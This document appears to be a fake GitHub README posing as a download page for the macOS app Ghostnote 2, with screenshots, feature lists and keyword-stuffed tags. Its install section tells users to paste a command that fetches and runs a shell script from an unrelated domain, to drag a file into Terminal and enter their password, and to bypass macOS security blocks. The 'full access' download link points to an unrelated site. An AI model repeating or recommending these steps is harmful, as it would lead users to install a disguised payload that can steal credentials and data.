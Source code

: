 <p align="center">
  <img src="https://i.ibb.co/mC7hp3Q5/1593841249-ghostnote.png" alt="Ghostnote 2 macOS Banner" />
</p>

<h1 align="center">Ghostnote 2 for macOS</h1>

<p align="center">
  🗂️ Attach contextual notes to apps, folders, files, and documents — without switching to a separate notes app.  
  <br><br>
  ✅ Apple Silicon & Intel native  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/155" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20GHOSTNOTE%202%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Ghostnote 2 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/mCCspk87/1593841328-1-min.png" alt="Ghostnote 2 Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Ghostnote 2?

**Ghostnote 2** is a unique productivity tool for macOS that lets you attach notes directly to files, folders, apps, and even websites — making it easy to track thoughts and to-dos exactly where they’re relevant.

Whether you're a developer, designer, or writer, Ghostnote helps you keep information in context without cluttering your main notes app. Use it to add hidden reminders, project details, or internal documentation directly on Finder items or app windows.

It’s fully compatible with **Apple Silicon (M1/M2/M3)** and runs smoothly on **macOS Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Ghostnote 2?

- 📌 **Contextual Notes for Files & Folders**  
- 🧠 **App-Specific Sticky Notes**  
- 🌐 **Attach Notes to Websites & Documents**  
- 🖥️ **macOS Finder & App Integration**  
- 🧭 **Lightweight & Always Accessible**  
- 🔐 **Private & Local Note Storage**  
- ⚙️ **Apple M1/M2/M3 Native Support**  
- 🚫 **No Sync, No Distractions**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/RdQ4vwf/1593841315-3-min.png" alt="Ghostnote Finder Integration Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/QvqbBMp6/1593841244-2-min.png" alt="Ghostnote App Window Screenshot" />
</p>

---

## 🚀 Key Features

- Attach notes to any file, app, or folder  
- Support for Safari, Chrome, and other browsers  
- Markdown support in notes  
- Global hotkey access  
- Smart Inspector for managing all notes  
- Minimalist menu bar interface  
- Offline, private, and secure  
- No sync or cloud storage

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Ghostnote 2 under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/NoteType-Contextual+Sticky+Notes-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Finder+Integration-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Ghostnote 2 – Notes Where You Need Them

Thanks for using **Ghostnote 2 for macOS**.  
Stay organized, context-aware, and clutter-free.

---

## 🧭 Usage Context

This utility is designed for offline productivity workflows — note-taking directly tied to file system and app usage.  
No cloud sync, telemetry, or background processes are involved.

Works in isolated, local environments.  
Ghostnote 2 is not affiliated with Apple.

---

## 🔍 Tags

```text
ghostnote 2 for mac download, attach notes to files macos, contextual sticky notes mac ghostnote, ghostnote 2 m1 native support, file-based note system mac finder, ghostnote app note-taking per app mac, download ghostnote 2 full dmg mac, ghostnote for macbook pro ventura, ghostnote markdown sticky notes mac, offline mac note tool for devs, ghostnote menu bar productivity app, app-specific notes mac utility, ghostnote mac app native interface, project notes per folder ghostnote, ghostnote 2 for sonoma monterey mac
